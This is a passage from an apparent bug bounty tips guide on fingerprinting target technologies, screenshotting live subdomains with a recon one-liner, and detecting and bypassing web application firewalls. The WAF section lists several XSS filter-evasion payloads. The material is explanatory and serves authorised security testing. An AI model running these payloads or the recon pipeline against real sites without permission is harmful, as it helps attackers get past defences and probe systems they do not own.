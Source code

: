 * <a href="https://github.com/MrEmpy/BugBountyTricks">More on the subject</a>

# Technologies:

Extracting technologies from a target is essential to know the functioning of a given target, some of these technologies had flaws found by security researchers, both critical and low level. We need to know the technologies of the target to know how to deal with that scenario of exploitation. Some tools I use are ```wappalyzer``` and ```whatweb```, I store the information for future analysis when testing the security of a target.

# Screenshot:

Screen capture helps a lot when getting to know a target's home, especially when there are many active hosts, with it I can get an idea of what each server is used and makes it easier to see what to do manually from host by host.
In the screenshots I look for hosts with login page, access denied (401/403), sites with more applications, this applies its field to select one of the hosts to start looking for vulnerabilities.

```
$ assetfinder -subs-only scope.com | httpx -silent -o verified_subdomains.txt;cat verified_subdomains.txt | awk -F[/:] '{print $4}' | anew > subdomains.txt;rm verified_subdomains.txt;eyewitness -f subdomains.txt --prepend-https -d screenshots
```

# WAF:

Some servers use Web Application Firewall (WAF) to protect their sites against malicious attacks such as code injection, it is important to identify them and know how to bypass them. I use ```wafw00f``` to identify which WAF is being used on a given host. To find the IP address of a target I usually use ```censys``` and ```viewdns```.

Some payload to bypass the WAF:

```
<sCrIpt>alert(1)</ScRipt>
<script x>
<script x>alert('XSS')<script y>
<img src='1' onerror='alert(0)' <
String.fromCharCode(88,83,83)
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
<script>window['alert'](document['domain'])</script>
"><svg/onload=confirm(1)>"@x.y
```

Some references on how to circumvent a WAF:

* <a href="https://hacken.io/researches-and-investigations/how-to-bypass-waf-hackenproof-cheat-sheet/">How to Bypass WAF - Cheat Sheet</a>
* <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads">XSS bypass WAF</a>


# Files:
